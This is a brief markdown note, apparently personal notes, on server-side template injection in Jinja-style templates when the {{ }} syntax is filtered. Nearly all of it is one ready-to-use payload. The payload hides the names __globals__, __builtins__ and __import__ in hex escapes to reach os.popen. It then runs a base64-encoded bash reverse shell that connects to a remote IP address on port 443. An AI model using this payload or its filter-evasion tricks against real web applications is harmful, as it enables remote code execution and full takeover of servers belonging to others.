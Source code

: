 # ssti

except payloads all the thing

when can't use {{}}

{{ zzzzz}} == {% include zzzzz%}

```
{% with a = request["application"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA JiAvZGV2L3RjcC8xMC4xMC4xNi4xOTMvNDQzIDA JjE= | base64 -d | bash")["read"]() %} a {% endwith %}

```
